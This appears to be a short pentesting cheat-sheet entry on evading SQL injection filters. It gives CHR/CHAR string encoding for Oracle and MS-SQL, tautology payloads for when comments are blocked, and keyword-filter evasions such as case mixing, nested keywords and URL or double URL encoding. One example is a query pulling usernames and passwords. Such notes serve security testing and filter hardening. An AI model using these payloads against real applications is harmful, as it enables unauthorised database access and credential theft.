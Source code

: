 ### SQL - Bypass filters
Tags: #sqli 
Author:
Reference:

#### Notes
**Summary**: covers some techniques to bypass filters
**Notes**:
- the following two queries for Oracle and MS-SQL, respectively, are the equivalent of `select ename, sal from emp where ename=’marcus’:`
```sql
SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||
CHR(114)||CHR(99)||CHR(117)||CHR(115)

# second one 

SELECT ename, sal FROM emp WHERE ename=CHAR(109)+CHAR(97)
+CHAR(114)+CHAR(99)+CHAR(117)+CHAR(115)
```

- if comments are block then
```sql
‘ or 1=1-- #blocked

#you can inject:

‘ or ‘a’=’a
```
- if keyword like SELECT is blocked
```sql
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```
- 
```sql
  SELECT/*foo*/username,password/*foo*/FROM/*foo*/users
```
